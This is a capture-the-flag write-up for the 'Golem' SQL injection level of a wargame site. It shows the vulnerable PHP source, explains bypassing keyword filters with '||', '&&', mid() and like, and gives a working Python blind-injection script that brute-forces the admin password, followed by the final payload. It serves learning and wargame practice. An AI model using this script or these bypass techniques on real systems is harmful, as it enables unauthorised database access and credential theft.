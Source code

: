 # **Golem**

This challenge is similar to Orc & Orge.

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe");   
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
     
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem");   
  highlight_file(__FILE__);   
?>
```

The difference is that `if(preg_match('/or|and|substr\(|=/i', $_GET[pw]))` filter out `substr` & `=`.

Filtering out `substr` isn't a big deal, cuz we used to compare the value by `mid()`.

The acceptable way to replace the `=` is `like`, though they are not the same.

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""
 
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="' || id like 'admin' && mid(pw,"+str(i)+",1) like '"+c

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        #print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
            if (b"Clear" in HTTP.getresponse().read()):
                print ("[*] Password: %s" % Passwd)

            break
print ("[!] Not Found")
print ("[*] Password: %s~" % Passwd)
```

![](https://i.imgur.com/X7I81hQ.png)

It doesn't exit after first SQL statement return FALSE, so just paste the correct password to make second SQL statement become TRUE then pass it.

Payload is : `?pw=88e3137f`


